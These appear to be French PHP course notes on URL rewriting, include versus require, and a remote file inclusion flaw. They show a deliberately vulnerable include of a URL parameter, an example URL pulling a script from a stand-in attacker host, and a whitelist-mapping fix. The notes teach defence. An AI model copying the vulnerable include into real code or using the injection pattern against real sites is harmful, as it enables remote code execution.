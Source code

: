 Grace à la réécriture, on n'expose plus de model de donnée directement dans les url
on peut faire de l'ecriture sementique et on peut utiliser cela dans le REFERENCEMENT.

**INCLUDE ET REQUIRE**

* `include` ne break pas la suite du script quand il retourne une erreur.
* `require` break la suite du script quand il retourne une erreur.
* `header('Location: info.php');` header permet de spécifier l'en-tête HTTP string lors de l'envoi des fichiers HTML.


* l'injection de script, soit 2 fichiers php, info.php et plop.php

dans info.php:
```php
<?php
$script = $_GET['script'];
include $script;
echo 'toto';
```
```php
dans plop.php:
<?php
echo 'toto2<br />';
```

Le fait d'inclure dans `include` ou `require` une variable récupéré dans l'url constitue une faille

`info.php?script=plop.php`

car on peut lui faire inclure autre choses comme une url pointant un mauvais script

`info.php?script=http://www.mechantpirate-a.fr/script.php`


**comment bloquer cela ?**

c'est de créér une fonction interne qui fait du mapping, on lui donne un nom puis
la fonction verifie si le ficher existe :

```php
function includeScript($key){
    $scriptBase = array(
        'menu' => 'plop.php'
    );

    return $scriptBase[$key];
}

$script = $_GET['script'];

include includeScript($script);
```

Puis quand on tape cette url :

`info.php?script=menu`

alors *plop.php* sera inclus.
